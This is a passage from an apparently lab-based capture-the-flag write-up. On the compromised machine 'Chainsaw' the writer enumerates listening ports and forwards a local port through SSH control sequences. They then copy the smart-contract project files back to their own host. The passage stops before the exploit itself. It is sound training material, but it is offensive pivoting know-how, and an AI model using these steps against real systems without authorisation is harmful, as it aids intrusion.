 The intended path here was the exploit this second smart contract. In
fact, I can see it listening on TCP 63991:



    bobby@chainsaw:~/projects/ChainsawClub$ netstat -tnlp
    (Not all processes could be identified, non-owned process info
     will not be shown, you would have to be root to see it all.)
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
    tcp        0      0 0.0.0.0:9810            0.0.0.0:*               LISTEN      -                   
    tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
    tcp        0      0 127.0.0.1:63991         0.0.0.0:*               LISTEN      -                   
    tcp6       0      0 :::21                   :::*                    LISTEN      -                   
    tcp6       0      0 :::22                   :::*                    LISTEN      -   



If I try to connect, I see the same thing I saw on port 9810 during
original enumeration:



    bobby@chainsaw:~/projects/ChainsawClub$ curl -s 127.0.0.1:63991
    400 Bad Request



I'm in the same position I was originally in, with the information I
need to connect over `web3`. I'll use [SSH Control
Sequences](https://pen-testing.sans.org/blog/2015/11/10/protected-using-the-ssh-konami-code-ssh-control-sequences)
to forward 63991 on my local box through SSH to 63991 on Chainsaw:



    bobby@chainsaw:~/projects/ChainsawClub$
    ssh> -L 63991:127.0.0.1:63991
    Forwarding port. 



I'll also copy all the files back to my host:



    root@kali# scp -i ~/id_rsa_chainsaw_bobby bobby@10.10.10.142:/home/bobby/projects/ChainsawClub/* .
    address.txt                                                                          100%   44     2.4KB/s   00:00
    ChainsawClub                                                                         100%   16KB 474.7KB/s   00:00                                                                        
    ChainsawClub.json                                                                    100%  123KB   2.8MB/s   00:00
    ChainsawClub.sol                                                                     100% 1164    83.3KB/s   00:00 



Now I can connect with a Python terminal again, and load the json and
address:
